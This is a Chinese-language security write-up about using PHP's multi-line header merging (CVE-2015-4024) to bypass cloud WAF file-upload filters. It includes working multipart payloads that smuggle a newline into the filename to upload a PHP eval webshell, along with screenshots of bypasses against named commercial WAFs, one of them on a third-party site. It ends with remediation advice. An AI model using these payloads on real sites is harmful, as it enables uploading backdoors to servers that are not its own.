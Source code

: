 # PHP DOS漏洞的新利用：CVE-2015-4024 Reviewed

0x00 背景介绍
=====

今天我们想从2015.04.03的一个PHP远程dos漏洞（CVE-2015-4024）说起。技术细节见如下链接，中文版：[http://drops.wooyun.org/papers/6077](http://drops.wooyun.org/papers/6077)，英文版 ：[https://bugs.php.net/bug.php?id=69364](https://bugs.php.net/bug.php?id=69364)。因为php解析body part的header时进行字符串拼接，而拼接过程重复拷贝字符导致DOS。事实上该漏洞还有其他非dos的利用价值，其中之一，就是绕过当前各种云WAF的文件上传防御策略。

目前国内外流行的云WAF厂商有如百度云加速，360网站卫士，加速乐，云盾等。因为PHP远程dos漏洞及PHP官方修复方案的特点，我们成功利用该漏洞绕过了当前主流WAF的文件上传防御，例如百度云加速、360网站卫士、知道创于加速乐、安全狗。

接下来，我们以PHP为例，详细解析我们的绕过方法。

0x01 绕过WAF的原理
=====

根据PHP DOS漏洞原理，在`multipart_buffer_headers`函数解析header对应value时，value值存在n行。每行的字符串以空白符开头或不存字符':'，都触发以下合并value的代码块。那么解析header的value就要执行(n-1)次合并value的代码块，从而导致DOS。

```
prev_len= strlen(prev_entry.value);
     cur_len= strlen(line);
 
     entry.value= emalloc(prev_len + cur_len + 1); //1次分片内存
     memcpy(entry.value,prev_entry.value, prev_len); //1次拷贝
     memcpy(entry.value+ prev_len, line, cur_len);   //1次拷贝
     entry.value[cur_len+ prev_len] = '\0';
 
     entry.key= estrdup(prev_entry.key);
 
     zend_llist_remove_tail(header);//1次内存释放

```

而PHP官方修复方案，在进行合并时，避免重复拷贝，从而避免DOS。绕过WAF的关键在于，PHP`multipart_buffer_headers`函数解析header对应value时，value值存在多行。每行的字符串以空白符开头或不存字符':'，将进行合并。而WAF在解析文件上传的文件名时，没有考虑协议兼容，不进行多行合并，就可以被绕过。

根据原理构造绕过WAF文件上传防御的payload，WAF解析到的文件名为”test3.jpg”，而PHP解析到的文件名是“`test3.jpg\nf/shell.php`”，因为”/”是目录分隔符，上传的文件名变为shell.php。以下是绕过paylaod、测试脚本、paylaod进行文件上传的效果图。

WAF绕过payload:

```
------WebKitFormBoundaryx7V4AhipWn8ig52y
Content-Disposition: form-data; name="file"; filename="test3.jpg\nsf/shell.php
Content-Type: application/octet-stream

<?php eval($_GET['c'])?>
------WebKitFormBoundaryx7V4AhipWn8ig52y

```

文件上传功能测试脚：

```
<?php
         $name = $_FILES['file']['name'];
        echo $name;
        echo "\n";
        move_uploaded_file($_FILES['file']['tmp_name'] , '/usr/local/nginx/html/upload/'.$_FILES['file']['name']);
        echo "upload success! ".$_FILES['file']['name'];
        echo "\n";
        echo strlen($_FILES['file']['name']);
?>

```

Payload能够正常上传

![p1](http://drops.javaweb.org/uploads/images/401780431bb9907c1c4bc970b8bbcde16487d916.jpg)

0x02 绕过WAF实战
=====

笔者通过搭建自己的测试站，接入360网站卫士和加速乐，验证绕过WAF文件上传防御的方法。

### 2.1 绕过360网站卫士

步骤1，验证网站已被360网站卫士防御，拦截了直接上传PHP文件的请求。

![p2](http://drops.javaweb.org/uploads/images/4a7a37194ab919214ba3b3dedeaee37fce4edd1b.jpg)

步骤2：成功绕过360网站卫士，上传shell成功，文件是apo.php。在该请求中，有没有Content-Type不影响绕过。

![p3](http://drops.javaweb.org/uploads/images/d19b5ec78ddaa2fa4cb2f07169a897cdb5d07e7d.jpg)

### 2.2 绕过知道创宇加速乐

步骤一：验证网站被加速乐保护，拦截了直接上传PHP文件的请求。

![p4](http://drops.javaweb.org/uploads/images/8c767622e3276ff0693998b4e5da701aedd74e8f.jpg)

步骤二：

成功绕过加速乐，上传shell，文件是syt.php。

![p5](http://drops.javaweb.org/uploads/images/77dba35b112fcca026f2c83535e1ebdea3a08d13.jpg)

### 2.3 绕过百度云加速

百度云加速与CloudFlare，从百度匀加速拦截页面可以看出使用的是CloudFlare. 但是估计有本地化，百度云加速应该是百度和CloudFlare共同产物吧。测试百度没有搭建自己的测试环境，找了个接入了百度云加速的站进行测试。

步骤一：验证网站被百度云加速保护，拦截了直接上传PHP文件的请求。

![p6](http://drops.javaweb.org/uploads/images/4c5770fabf43ac6d2506ea9687f30cd9b67daa66.jpg)

步骤二：成功绕过云加速

![p7](http://drops.javaweb.org/uploads/images/9915b91da8dcee04e551a56d37b0e31214a49972.jpg)

### 2.4 安全狗的测试

用该方法测试安全狗的文件上传，

```
Content-Disposition: form-data; name="file"; filename="2.php
aa:
Content-Type: image/jpeg

```

php与aa这间的是`%0a`，处理请求的Apache进程直接崩溃。感觉可以溢出，没有深入。

### 2.5 CloudFlare的测试

为了测试能否绕过国外版的CloudFlare，特意买了它的服务。结果，在规则全开的情况下，竞然不拦截文件上传。

![p8](http://drops.javaweb.org/uploads/images/7e99e49c7af2381b3615e8aa2fa49ef7e16560bd.jpg)

![p9](http://drops.javaweb.org/uploads/images/9846ee8a2245e83a59f976f194949b4c806a424b.jpg)

### 2.6 Amazon WAF

亚马逊的WAF没有规则，所有规则需要用户配置。在配置的选项里，没有文件上传的选项，所以也就没有绕过的说法。国内WAF和国外WAF的区别挺大，为什么这么设计还是值得深思。

![p10](http://drops.javaweb.org/uploads/images/fc38831f05f0db91e7c128868a36c7fa226bd851.jpg)

我们还绕过了其他WAF，这里不一一列举。

0x03 扩展—更多的工作
=====

### 3.1 分析filename其他字符的绕过

同理，我们发现除了双引号外，使用单引号也能绕过WAF的防御，并实现文件上传。

```
------WebKitFormBoundaryx7V4AhipWn8ig52y
Content-Disposition: form-data; name="file"; filename='test3.jpg\nsf/shell.php
Content-Type: application/octet-stream

<?php eval($_GET['c'])?>
------WebKitFormBoundaryx7V4AhipWn8ig52y

```

### 3.2 分析其他应用脚本语言

我们也发现jsp解析也有自己的特点，同时可被用于绕过WAF。暂时未测试asp,aspx,python等常用的WEB应用脚本语言。

0x04 修复方案
=====

### 4.1 修复方案一

解析文件上传请求时，如果发现请求不符合协议规范，则拒绝请求。可能会产生误拦截，需要评估误拦截的影响范围。

### 4.2 修复方案二

兼容php的文件解析方式，解析文件名时，以单引号或双引号开头，并且对应的单引号或双引号闭合。

0x05 总结
=====

本文通过Review PHP远程dos漏洞(CVE-2015-4024)，并利用该特性绕过现有WAF的文件上传防御，成功上传shell。 更重要的价值，提供给我们一个绕过WAF的新思路，一种研究新方向：利用后端应用脚本与WAF行为的差异绕过WAF的防御。总的来说，一款优秀的WAF应该能够处理兼容WEB应用容器、标准协议、web服务器这间的差异。